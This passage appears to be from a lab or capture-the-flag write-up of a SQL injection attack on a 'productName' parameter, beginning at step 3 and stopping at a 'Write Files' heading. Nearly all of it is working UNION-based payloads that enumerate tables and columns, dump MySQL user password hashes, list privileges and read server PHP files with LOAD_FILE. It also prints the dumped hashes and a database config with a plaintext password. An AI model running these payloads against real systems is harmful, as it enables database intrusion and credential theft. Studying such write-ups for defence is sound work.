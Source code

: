 3. Discovery tables:

```php
productName=' union select 1,2,3,4,5,group_concat(TABLE_NAME SEPARATOR "\n") from INFORMATION_SCHEMA.TABLES -- #
```

4. Discovery Columns:

```php
productName=' union select 1,2,3,4,5,group_concat(COLUMN_NAME SEPARATOR "\n") from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="mysql" -- #
```

5. Discovery hashes:

```bash
productName=' union select 1,2,3,4,5,group_concat(User,":",Password  SEPARATOR "\n") from mysql.user  -- #
```

````php
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
manager:*CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
hector:*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
````

6. Discovery privileges:

```php
productName=' union select 1,2,3,4,5,group_concat(GRANTEE,":",PRIVILEGE_TYPE,":",IS_GRANTABLE SEPARATOR "\n") from INFORMATION_SCHEMA.USER_PRIVILEGES  -- #
```

7. Load files:

```php
productName=' union select 1,2,3,4,5,(Select concat ("dumb","\n", TO_BASE64(LOAD_FILE("C:\\inetpub\\wwwroot\\index.php")),"\n","dumb"))  -- #
```

````php
productName=' union select 1,2,3,4,5,(Select concat ("dumb","\n", TO_BASE64(LOAD_FILE("C:\\inetpub\\wwwroot\\admin.php")),"\n","dumb"))  -- #
````

````php
private static $dbName = 'warehouse' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'manager';
private static $dbUserPassword = 'l3tm3!n';
````



## Write Files
